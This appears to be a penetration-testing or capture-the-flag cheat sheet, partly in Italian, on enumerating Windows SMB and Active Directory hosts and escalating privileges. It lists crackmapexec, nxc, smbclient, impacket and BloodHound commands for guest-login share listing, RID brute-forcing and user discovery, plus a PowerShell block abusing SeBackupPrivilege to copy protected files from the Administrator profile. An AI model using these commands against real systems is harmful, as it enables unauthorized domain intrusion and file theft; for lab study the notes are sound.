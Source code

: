 # Table of Content
<!-- TOC -->

- [Table of Content](#table-of-content)
- [Enumeration](#enumeration)
    - [Tools](#tools)
    - [Default credentials](#default-credentials)

<!-- /TOC -->

# Enumeration
search for:
- shares
- groups
- RIDs

\
try using default credentials like `guest` and no password\
reapet enumeration with any other users you find access to

## Tools
1. crackmapexec
    - `crackmapexec smb HOST --shares {-u guest -p ''}`
    - `crackmapexec smb HOST --rid-brute`
2. nxc
    - `nxc smb HOST --shares {-u guest -p ''}`
    - `nxc ldap HOST {-M group-mem -o group="Remote Managment Users"} {--groups}`
    - `nxc smb HOST --rid-brute`
    - `nxc smb HOST --users`
3. smbclient
    - `smbclient -L HOST`
    - `smbclient HOST\SHARE {- U user%password}`
4. impacket
    - `impacket-lookupsid HOST {-no-pass}`
5. evilwinrm
    - use it every time with every new users and password you find. Also check it with `nxc ldap` because sometimes it doesnt work

## Default credentials
- smb: `-u 'guest' -p ''`

# Privilege Escalation
## Enumeration
- check permission: `whoami /all`
### Bloodhound
1. Collect data
    - `bloodhound-python -u user -p password -d domain -ns ip -c All`
    - `nxc ldap host -u user -p password --bloodhound -c All`
2. Import and query
    - `transitive object control`

### SeBackupPrivilege
Enable privileges using giuliano108/SeBackupPrivilege

```PS
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege

# Retrieve sensitive files
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
```



# notes from adriano

utile anche usare nxc con --debug

a volte nxc si autentica ma altri tool no. Anche bloodhound. Cercando si nota che quando l'autenticazione funziona è perchè va trmaite Kerboros quindi va usata l'opzione -k

impacket-gettgt to bypass all and authenticate with kerberos


guarda il gruppo remote managment con bloodhound e marca come high value gli utenti che ne fanno parte

ogni volta che fai un upadte di utenzza gruppo ecc, bisdogna rigenerare il TGT kerberos se usato